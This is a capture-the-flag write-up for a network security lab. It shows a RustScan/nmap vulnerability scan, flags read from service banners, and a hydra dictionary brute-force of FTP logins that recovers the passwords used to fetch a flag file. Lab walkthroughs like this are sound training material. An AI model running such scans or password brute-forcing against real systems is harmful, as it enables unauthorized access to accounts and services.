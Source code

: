 # Net Sec Challenge

## Challenge Questions

I'll do a `tools/enumeration/RustScan/target/release/rustscan -a 10.10.185.143 -u 5000 -- -sC -sV --vv --script vuln` which delivers nearly all the answers to the following questions.

### What is the highest port number being open less than 10,000?
```
8080
```

### There is an open port outside the common 1000 ports; it is above 10,000. What is it?
```
10021
```

### How many TCP ports are open?
These scanned protocols on the ports are all based on TCP.
```
6
```

### What is the flag hidden in the HTTP server header?
```sh
80/tcp    open  http        syn-ack lighttpd
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-server-header: lighttpd THM{web_server_25352}
```

### What is the flag hidden in the SSH server header? 
```sh
SF-Port22-TCP:V=7.92%I=7%D=10/16%Time=616A0C7A%P=x86_64-pc-linux-gnu%r(NUL
SF:L,29,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{946219583339}\r\n");
```
```
THM{946219583339}
```
### We have an FTP server listening on a nonstandard port. What is the version of the FTP server?

* `10021/tcp open  ftp         syn-ack vsftpd 3.0.3`
```
vsftp 3.0.3
```

### We learned two usernames using social engineering: eddie and quinn. What is the flag hidden in one of these two account files and accessible via FTP?

Some bruteforcing via hydra
```sh
[whackx@manbox ~]$ hydra -L users -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt ftp://10.10.185.143:10021
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-16 01:35:05
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688796 login tries (l:2/p:14344398), ~1793050 tries per task
[DATA] attacking ftp://10.10.185.143:10021/
[10021][ftp] host: 10.10.185.143   login: eddie   password: jordan
[10021][ftp] host: 10.10.185.143   login: quinn   password: andrea
1 of 1 target successfully completed, 2 valid passwords found
[WARNING] Writing restore file because 8 final worker threads did not complete until end.
[ERROR] 8 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-16 01:35:36
```

Log in as `quinn`, download the flag via `get ftp_flag.txt`.
```
[whackx@manbox ~]$ ftp 10.10.185.143 10021
Connected to 10.10.185.143.
220 (vsFTPd 3.0.3)
Name (10.10.185.143:whackx): quinn
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 Sep 20 08:36 .
drwxr-xr-x    2 1002     1002         4096 Sep 20 08:36 ..
-rw-r--r--    1 1002     1002          220 Sep 14 07:43 .bash_logout
-rw-r--r--    1 1002     1002         3771 Sep 14 07:43 .bashrc
-rw-r--r--    1 1002     1002          807 Sep 14 07:43 .profile
-rw-------    1 1002     1002          723 Sep 20 08:27 .viminfo
-rw-rw-r--    1 1002     1002           18 Sep 20 08:27 ftp_flag.txt
226 Directory send OK.
```

### Browsing to http://10.10.185.143:8080 displays a small challenge that will give you a flag once you solve it. What is the flag?

At first, I tried to be stealthy with something like the following.
```sh
[whackx@manbox ~]$ sudo nmap -T1 -sN -ff 10.10.185.143 -vv
```
That did not not work. So, I spun up an attack box and iterated through every flag possible.
At some point the flag came up on the website.
